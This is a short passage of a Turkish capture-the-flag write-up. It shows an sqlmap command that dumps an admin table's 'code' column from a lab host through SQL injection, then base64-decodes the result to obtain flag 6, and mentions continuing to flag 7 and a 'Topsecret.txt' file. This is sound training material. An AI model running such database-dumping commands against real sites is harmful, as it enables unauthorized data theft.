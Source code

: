     # sqlmap -u http://192.168.56.20/Unit990/pages/clientView.php?id=13 -D silex -T admin -C code --dump
![Picture](/DEFENCESPACECTF-17/Pics/sqlmap-son.png "Picture")
Dump ile içerdeki veriyi çektim ve sanırım base64 encoded bir string elde ettim. Base64 decode edince flag 6'yı elde ediyorum.

`-> flag 6 {Nigairforcecloud}`
Burdan yukarıdaki işlemlere devam edip Flag7'yi bulur aynı şekilde "Topsecret.txt" dosyasına ulaşabiliriz:)
